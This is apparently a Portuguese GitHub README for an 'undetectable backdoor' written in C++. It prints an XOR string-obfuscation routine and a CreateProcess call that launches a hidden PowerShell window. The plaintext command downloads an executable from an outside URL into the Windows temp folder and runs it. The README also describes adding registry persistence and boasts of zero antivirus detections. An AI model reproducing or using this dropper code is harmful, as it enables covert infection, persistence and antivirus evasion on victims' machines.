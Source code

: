 # Backdoor-Indetectavel
A função do backdoor é fazer download de um executável via powershell direto na pasta e temp, em seguida executar o arquivo, tudo usando uma função onde a janela do console fica no modo em que não seja visível para o usuário. Esse método é comum em criadores de malware, onde muitos usam métodos mais complexos para evitar a detecção, como programar um arquivo onde ele fica dormindo até alguém pressionar uma tecla, ou até atingir um certo tempo, etc..  

### Criptografia Xor
Para explicar resumidamente, ele cria um array Decrypter de nosso array char e faz o xors de volta usando a chave para converter o valor criptografado para o valor original e os armazena no array de dados descriptografado que criamos anteriormente. Com a ajuda disso, se alguém executar strings, não será capaz de ver nenhum comando no executável. Eles precisariam entender a matemática e definir um ponto de interrupção adequado no Debugger. 
<br />
A equação matemática da criptografia xor que fiz foi bem simples, a chave da criptação é o tamanho da string vezes 2 divido por 100, fazendo com que a chave seja a própria string desejada. se quiser saber mais sobre criptografica xor que fiz ![clique aqui](https://github.com/andreyquerino/CriptografiaXor).

```c++
void Decrypter(char CriptXor[]) {  
    int QuantidadeString = strlen(CriptXor); // Determina o tamanho da string.
    for (int i = 0; i < QuantidadeString; i++){ 
        CriptXor[i] = CriptXor[i] ^ (QuantidadeString*2/100); // Tamanho da string * 2 / 100.
    } 
} 
```
![Encript](https://user-images.githubusercontent.com/88719652/129620582-31e6f1bc-1025-4365-8511-b6aac50d4ac0.png)

### CreateProcess
Essa parte do código cria o processo powershell usando API do windows, mas antes, A função Decrypter vai fazer a decodificação da string no tempo da execução antes de abrir o processo onde os seguintes comando são coordenados para fazer, o download do executável MrQuerino.exe via "wget", alocando na pasta temp com o nome de WelCome.exe e na sequência executalo.

> powershell.exe wget https://github.com/andreyquerino/Backdoor-Indetectavel/blob/main/MrQuerino.exe?raw=true -o C:\\windows\\temp\\WelCome.exe;start C:\\windows\\temp\\WelCome.exe

```c++
void Run() {
   char processo[] = "sltfqpkfoo-f{f#tdfw#kwwsp9,,djwkva-`ln,bmgqfzrvfqjml,Ab`hgllq.Jmgfwf`wbufo,aola,nbjm,NqRvfqjml-f{f<qbt>wqvf#.l#@9__tjmgltp__wfns__Tfo@lnf-f{f8pwbqw#@9__tjmgltp__wfns__Tfo@lnf-f{f";
   Decrypter(processo); //Função para decriptar
   STARTUPINFO pinfo; //contém detalhes de como todas as coisas devem ser cuidadas antes do início do processo 
   PROCESS_INFORMATION info; //contém detalhes sobre o novo processo, processo pai, seu processo filho, outros threads e como ele funcionará 
   memset(&pinfo, 0, sizeof(pinfo));
   CreateProcess(NULL, processo, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &pinfo, &info); //API CreateProcess que cria um processo powershell.exe usando a variável acima e canaliza a entrada, saída e erro para o HANDLE usando o & info criado acima
}
```
https://user-images.githubusercontent.com/88719652/129621046-196b336d-e839-473c-8691-9380c64cf998.mp4

### Persistência
Como bônus tive a liberdade de criar um registro de persistência no windows onde toda vez que iniciar o sistema vai abrir o executável.

![persistencia](https://user-images.githubusercontent.com/88719652/129620696-eac13434-65d5-407f-8987-7b69fdc930f2.png)


### Virus Total 
Até a data desta postam, não teve nenhuma detecção no virus total.

![virus-total](https://user-images.githubusercontent.com/88719652/129620707-6fe47fc6-3df1-44e9-aea7-15f0c8aa3494.png)

